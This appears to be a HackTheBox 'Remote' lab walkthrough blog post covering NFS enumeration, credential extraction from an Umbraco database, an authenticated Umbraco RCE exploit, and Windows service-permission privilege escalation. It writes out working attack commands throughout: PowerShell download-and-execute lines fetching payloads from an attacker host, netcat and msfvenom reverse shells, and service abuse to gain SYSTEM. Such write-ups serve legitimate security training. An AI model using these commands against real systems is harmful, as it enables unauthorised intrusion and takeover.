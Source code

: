 ```yaml
---
layout: post
title: HackTheBox Remote walkthrough
gh-repo: c00rni/c00rni.github.io
gh-badge: [star, fork, follow]
tags: [enumeration, hackthebox, powercat, powerup, nfs, netcat, powershell, windows, msfvenom, oscp]
comments: true
---
```


Remote is a HacktheBox windows machine with the ip address 10.10.10.180. Rated as easy on the platform, this machine is highly [CVE](https://cve.mitre.org/about/cve_and_nvd_relationship.html) oriented and similar of what you would encounter in an OSCP exam. I got a foothold on the machine using an authenticated remote code execution on the web server and elevate my privilege through an insecure file permission vulnerability. This box is fun and great to get familiar with windows privilege escalation.

![info_card.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/3b4dc061e2b548afb1e48a934e076f09.png)


# Enumeration

I started with multiple port scans.
## Port scans

![full_scan.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/b7bc801733c0425ab5820880a68c5c86.png)


![detail_scan.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/c6a91f46435c4725bc4b7c6678a4d996.png)


A lot of ports were opened and the enumeration phase can be very time consuming in a penetration test. In order to manage my time efficiently, I spent no longer than 30 minutes on each port and focus my attention in this order:
- Port 80/5985/47001 because they are webservers.
- Port 21, Anonymous login is allowed I might be to upload or download files.
- Port 111/2049 NFS is insecure by design and drives are mounted.
- Port 445 - Samba or SMB can provide very useful information but I need credentials to log in.
- Other ports ...

### Port 80

I found a login page using Umbraco CMS.

![umbraco_login_page.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/16a50ddcc8054aa5b2bb76c7e12826c8.png)

### Port 111

Network File System (NFS) allow users on client computers to access files over the network as if they were on locally mounted storage. NFS is insecure by design. It's not uncommon to see storage open to the world because of miss configurations.

I used NSE Nmap scripts to discover the name of the mount directory.

![nfs_nse_sancs.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/16cf451fc34d48f58e8d9fb9c7ecd362.png)

I mount the remote drive to a directory.
```bash
mkdir site-backups
sudo mount -o nolock 10.10.10.180:/site-backups $PWD/site-backups
```

Found the Umbraco database in a compact file format ([SDF](https://fileinfo.com/extension/sdf)). *This was the most tricky part in my opinion, things could have become difficult without the knowledge of this file format*.

![found_umbraco.sdf.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/8e6c12f1220145e49ab23e099404e464.png)

I extracted the credentials from the raw data and decrypt the password hash [online](https://md5decrypt.net/Sha1/).

![database_content.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/889460b74eb44aa6881903bfcbceaa13.png)

Clair text password:
```plaintext
username: admin@htb.local
password: baconandcheese 
```


# Foothold

I found Umbraco CMS verson with `grep -iR "7.12.4"`. This version were vulnerable to an [authenticated remote code execution](https://www.exploit-db.com/exploits/46153) so I downloaded [noraj Umbraco POC](https://github.com/noraj/Umbraco-RCE). Since I didn't know what was the privileges of the user I was exploiting I executed the `powercat.ps1` script without saving the file on the remote file system by combining the **DownloadString** methode with the **Invoke-Expression** cmdlet ([IEX](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-6)).

Listen for connections:
```bash
sudo nc -lnvp 4444
```

Modified powercat script. Replace the Xs with your ip address.
```bash
cp /usr/share/windows-resources/powercat/powercat.ps1 .
echo 'powercat -c X.X.X.X -p 4444 -e cmd.exe' >> powercat.ps1
```

Extended the powercat directory to be accessible from the server.
```bash
sudo python3 -m http.server
```

Exploit umbraco vulnerability.
```bash
sudo python3 Umbraco-RCE/exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c powershell.exe -a "iex (New-Object System.Net.Webclient).DownloadString('http://X.X.X.X:8000/powercat.ps1')"
```

![foothold_shell.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/31186d2bc4ed47d3bd4bdec20ba4040d.png)

# Privilege escalation

**Insecure file permission** on services that run as `nt authority\system` are often an easy way to elevate privileges. 

I created a binary with **msfvenom** to replace the vulnerable service.
```bash
msfvenom -p windows/x64/exec CMD="C:\Windows\Temp\nc.exe -e cmd.exe X.X.X.X 9001" -f exe -o evil.exe
```

In order to execute all the Powershell commands in the same session, I opened a Powershell interpreter and moved to a writable directory.
```powershell
powershell.exe
cd c:\windows\temp
```

HarmJ0y `PowerUp.ps1` script from [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) github repository is an awnsome tool. It uses several tehcniques base on misconfugurations such as unquoted services paths and improper permission on service executables to attent elevate privileges.

I upload PowerUp script into the server and executed Invoke-AllChecks function.
```powershell
iex (New-Object System.Net.Webclient).DownloadString('http://X.X.X.X:8000/PowerUp.ps1')
Invoke-AllChecks
```


![Invoke-AllChecks.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/23ebf8a49b9a47c3b0318d62251b45bc.png)



Downloaded the binary and netcat to the server.
```powershell
powershell.exe -nop (New-Object System.Net.WebClient).DownloadFile('http://X.X.X.X:8000/evil.exe', 'c:\\Windows\\Temp\\evil.exe')
powershell.exe -nop (New-Object System.Net.WebClient).DownloadFile('http://X.X.X.X:8000/nc.exe', 'c:\\Windows\\Temp\\nc.exe')
```

Open a port for reverse shell connections on my machine.
```bash
sudo nc -lvnp 9001
```

And finaly executed `Invoke-ServiceAbuse` function to run the exploit.
```powershell
Invoke-ServiceAbuse -Name 'UsoSvc' -Command 'C:\Windows\Temp\evil.exe'
```



![root_shell.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/ddb212d55d1446a4b37e3c57c8b606c8.png)

Thanks for reading !

# References
- [https://fileinfo.com/extension/sdf](https://fileinfo.com/extension/sdf)
- [https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-6](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-6)
- [https://github.com/noraj/Umbraco-RCE](https://github.com/noraj/Umbraco-RCE)
- [https://md5decrypt.net/Sha1/](https://md5decrypt.net/Sha1/)
- [https://www.exploit-db.com/exploits/46153](https://www.exploit-db.com/exploits/46153)
- [https://cve.mitre.org/about/cve_and_nvd_relationship.html](https://cve.mitre.org/about/cve_and_nvd_relationship.html)
